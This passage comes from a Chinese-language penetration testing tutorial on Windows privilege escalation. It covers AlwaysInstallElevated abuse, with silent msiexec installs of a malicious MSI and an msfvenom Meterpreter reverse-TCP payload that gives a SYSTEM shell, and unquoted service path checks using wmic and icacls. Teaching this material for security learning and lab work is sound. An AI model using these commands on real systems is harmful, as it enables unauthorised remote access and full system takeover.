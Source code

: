    ```shell
   msiexec /quiet /qn /i C:\Users\testuser\AppData\Local\temp\malicious.msi
   msiexec /quiet /qn /i C:\programdata\test.msi
   /quiet 安装过程中禁止向用户发送消息
   /qn     不使用GUI
   /i     安装程序
   ```

###### `Always Install Elevated`提权利用2

1. 下载 exemsi

   > https://www.exemsi.com/download/

2. MSF 生成 exe 程序

   ```bash
   msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.2.60 LPORT=8989 -f exe -o Payload.exe
   ```

3. 使用`exemsi`将`exe`封装为`msi`

   > 配置样式
   >
   > <img src="https://github.com/dingzr2001/CS_Insights/blob/main/Ch/%E7%BD%91%E7%BB%9C%E5%AE%89%E5%85%A8/img/image-20230110144313005.png?raw=true" alt="image-20230110144313005.png" style="zoom: 80%;" />
   >
   > <img src="https://github.com/dingzr2001/CS_Insights/blob/main/Ch/%E7%BD%91%E7%BB%9C%E5%AE%89%E5%85%A8/img/image-20230110144329253.png?raw=true" alt="image-20230110144329253.png" style="zoom:80%;" />

4. 运行`msi`程序，得到`system`权限的`shell`

   受害者机器上执行：

   ```shell
   msiexec /quiet /qn /i 1.msi
   ```

##### 可信任服务路径

对于文件路径中的每一个空格，`windows`都会尝试寻找并执行名字与空格前的名字相匹配的程序。

**检查目标主机是否可能存在漏洞**

利用：通过查找系统服务文件中存在的非引用路径，如果一个服务调用可执行文件，没有正确处理引用的全路径名，则可利用此漏洞。

1. 检查目标主机是否可能存在漏洞

```shell
wmic service get name,displayname,pathname,startmode|findstr /i "Auto" |findstr /i /v "C:\Windows\\" |findstr/i /v """
```

2. 检查对有漏洞目录是否有写入权限

   ```shell
   icacls "C:\Program Files (x86)\Windows Folder"
   
   F =完全控制
   CI =容器继承 - 此标志指示从属容器将继承此ACE。
   OI = Object Inherit - 这个标志表示从属文件将继承ACE。
   ```
